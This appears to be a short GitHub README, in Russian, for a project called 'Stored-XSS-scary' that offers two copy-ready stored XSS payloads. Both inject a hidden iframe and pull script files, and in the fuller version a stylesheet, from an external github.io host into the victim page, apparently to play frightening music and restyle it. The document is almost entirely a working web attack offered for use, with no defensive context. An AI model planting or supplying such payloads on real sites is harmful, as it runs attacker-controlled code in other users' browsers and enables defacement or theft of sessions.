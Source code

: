 # Stored-XSS-scary

Обрезанная версия (только запуск музыки):
> <script>var frame = document.createElement("iframe"); frame.style.display = "none"; document.body.appendChild(frame); frame.onload = function() { var script = document.createElement('script'); script.src = 'https://0-dayff13r.github.io/Stored-XSS-scary/start.js'; frame.contentWindow.document.head.appendChild(script)}</script>

Полная версия (музыка + CSS):
> <script>var frame = document.createElement("iframe"); frame.style.display = "none"; document.body.appendChild(frame); frame.onload = function() { var script = document.createElement('script'); script.src = 'https://0-dayff13r.github.io/Stored-XSS-scary/start.js'; frame.contentWindow.document.head.appendChild(script); var cssLink = document.createElement('link'); cssLink.rel = 'stylesheet'; cssLink.href = 'https://0-dayff13r.github.io/Stored-XSS-scary/styles.css'; document.head.appendChild(cssLink); var script2 = document.createElement('script'); script2.src = 'https://0-dayff13r.github.io/Stored-XSS-scary/script.js'; document.body.appendChild(script2);}</script>
